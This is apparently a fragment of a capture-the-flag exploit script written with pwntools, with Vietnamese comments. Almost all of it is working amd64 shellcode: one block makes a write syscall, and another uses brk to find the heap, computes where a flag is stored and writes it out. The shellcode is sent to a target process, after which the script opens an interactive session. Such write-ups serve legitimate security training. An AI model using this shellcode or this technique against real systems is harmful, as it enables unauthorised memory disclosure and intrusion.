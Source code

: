 ```

                xor    ebx,ebx
                add    ebx,0x1
                push   rbx
                pop    rdi

                xor    ebx,ebx
                add    ebx,0x1
                xchg   r9,rbx
                xchg   rax,r9

                xor    ebx,ebx
                add    ebx,0x77
                xchg   r9,rbx
                xchg   r9,rdx
                syscall
                ''',arch='amd64')
offset_heap_flag = 0x20b80
#shellcode 2 dung syscall brk (no se tra ve cuoi dia chi heap) , can tinh toan offset va write
shellcode2 = asm('''
                 xor ebx,ebx
                 add ebx,0xd
                 dec ebx
                 xchg ebx,eax
                 syscall

                 mov bl,0x3
                 dec ebx
                 shl ebx,15
                 shl ebx,1
                 mov bh,0xb
                 mov bl,0x7f
                 inc ebx

                 xchg rax,r9
                 sub  r9,rbx

                 xor ebx,ebx
                 mov bl,1
                 push rbx
                 pop rdi
                 xchg r9,rsi

                 lea rdx,[r11]
                 xchg ebx,eax
                 syscall

                 ''',arch= 'amd64')

p.sendafter(b'>\n',shellcode2)
p.interactive()
```
